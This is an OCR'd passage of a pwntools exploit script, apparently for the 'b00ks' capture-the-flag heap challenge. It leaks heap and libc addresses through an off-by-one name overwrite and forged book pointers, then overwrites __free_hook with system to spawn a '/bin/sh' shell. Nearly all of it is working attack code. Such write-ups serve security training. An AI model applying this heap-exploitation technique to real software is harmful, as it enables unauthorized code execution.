 ```
    io.readuntil("> ")
    io.sendline("5")
    io.readuntil(": ")
    io.sendline(name)
def leak_address():
    return u64(io.recv(6).ljust(8,'\x00'))
def editbook(book_id, new_des):
    io.readuntil("> ")
    io.sendline("3")
    io.readuntil(": ")
    io.writeline(str(book_id))
    io.readuntil(": ")
    io.sendline(new_des)

def deletebook(book_id):
    io.readuntil("> ")
    io.sendline("2")
    io.readuntil(": ")
    io.sendline(str(book_id))
def printf():
    io.recvuntil('> ')
    io.sendline('4')
createname("a" * 32)
createbook(128, "a", 32, "a")
#gdb.attach(io)
createbook(0x21000, "a", 0x21000, "b")
# printf()
# io.recvuntil('a'*32)
# book1_addr =u64(io.recv(6)+'\x00'+'\x00')
book_id_1, book_name, book_des, book_author = printbook(1)
book1_addr = u64(book_author[32:32+6].ljust(8,'\x00'))
log.success("book1_address:" + hex(book1_addr))
#gdb.attach(io)
payload = p64(1) + p64(book1_addr + 0x38) + p64(book1_addr + 0x40) + p64(0xffff)#把book2_name_ptr和des_ptr覆盖book1
editbook(1, payload)
changename("a" * 32)
#gdb.attach(io)
printf()
io.recvuntil("Name: ")
book2_name_addr =u64(io.recv(6)+'\x00'+'\x00')
printf()
io.recvuntil("Description: ")
book2_des_addr = u64(io.recv(6).ljust(8,"\x00"))
# book_id_1, book_name, book_des, book_author = printbook(1)
# book2_name_addr = u64(book_name.ljust(8,"\x00"))
# book2_des_addr = u64(book_des.ljust(8,"\x00"))
log.success("book2 name addr:" + hex(book2_name_addr))
log.success("book2 des addr:" + hex(book2_des_addr))
#gdb.attach(io)
libc_base=book2_name_addr-0x5da010
#-------------方法一
system_addr=libc_base+libc.sym['system']
print "system_addr="+hex(system_addr)
free_hook=libc.symbols["__free_hook"]+libc_base
binsh_addr = libc.search('/bin/sh').next() + libc_base
payload = p64(binsh_addr) +  p64(free_hook)
editbook(1,payload)

payload=p64(system_addr)  #free_hook-->system_addr
editbook(2,payload)
gdb.attach(io)
deletebook(2)
```